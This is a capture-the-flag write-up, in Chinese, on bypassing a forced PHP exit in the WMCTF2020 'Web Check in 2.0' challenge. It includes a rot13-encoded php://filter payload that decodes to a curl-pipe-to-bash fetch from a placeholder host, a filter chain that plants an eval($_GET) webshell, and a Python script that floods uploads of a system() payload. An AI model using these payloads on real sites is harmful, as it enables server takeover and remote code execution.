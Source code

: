 ## 分割线———————————————————————————————————

## [WMCTF2020]Web Check in 2.0
关键词：PHP
参考https://cyc1e183.github.io/2020/08/04/WMctf2020-Checkin%E5%87%BA%E9%A2%98%E6%83%B3%E6%B3%95-%E9%A2%98%E8%A7%A3/
考点就是死亡exit的绕过，但是加了些过滤：

    preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content)

方法一、rot移位
直接rot会被过滤，所以需要用二次编码绕过。
为什么能用二次编码呢？因为参考官方文档file_put_contents函数的源码，可以发现先会对参数进行一次urldecode。

    payload:php://filter/write=string.%7%32ot13|%3C?cuc%20flfgrz(%22phey%20uggc://xxxxxxx.xxx:xxxx/gzc/|onfu%22);?%3E|/resource=oy3.php
官方的WP有误，少了尖括号和问号。

方法二、过滤器构造绕过
题目中的过滤器/iconv|UCS|UTF|rot|quoted|base64/
php:filter支持使用多个过滤器，参考官方文档 可用过滤器列表，还留下了字符串过滤器中的部分和压缩过滤器以及加密过滤器，所以可以考虑从这几个过滤器入手，最好用的应该就是zlib的zlib.deflate和zlib.inflate，组合使用压缩后再解压后内容肯定不变，不过我们可以在中间遍历一下剩下的几个过滤器，看看中间进行什么操作会影响后续inflate的内容，简单遍历一下可以发现中间插入string.tolower转后会把空格和exit处理了就可以绕过exit👇

    官方payload（未试）：php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_GET[1]);?>/resource=Cyc1e.php
方法三、爆破临时文件（复制官方WP）
题目的环境特地设置了php 7.0.33版本，由于file_put_contents也可以利用伪协议，所以利用再利用string.strip_tags会发生segment fault，这时候上传一个webshell会以临时文件的形式保存在/tmp中（老知识点了），利用require_once包含getshell即可（题目的设置是用一次就会被覆盖，所以直接反弹shell或者写马就行，这个是一个最不好的解作为题目的备选解）。

不过实际运维题目的时候，因为爆破的基数太大了，在比赛的时候太多人同时爆破形成了DDOS了，服务器也承受不住，所以我们没办法，只好选择封堵这条路了（莫怪）。简单放下生成临时文件的脚本（LFI via SegmentFault copy的）👇

    import requests
    import string
    import itertools
    
    charset = string.digits + string.letters
    
    host = "web_checkin2.wmctf.wetolink.com"
    port = 80
    base_url = "http://%s:%d" % (host, port)
    
    
    def upload_file_to_include(url, file_content):
        files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
        try:
            response = requests.post(url, files=files)
        except Exception as e:
            print e
    
    def generate_tmp_files():
        file_content = '<?php system("xxxxxxxx");?>'
        phpinfo_url = "%s/?content=php://filter/write=string.strip_tags/resource=Cyc1e.php" % (
            base_url)
        print phpinfo_url
        length = 6
        times = len(charset) ** (length / 2)
        for i in xrange(times):
            print "[+] %d / %d" % (i, times)
            upload_file_to_include(phpinfo_url, file_content)
    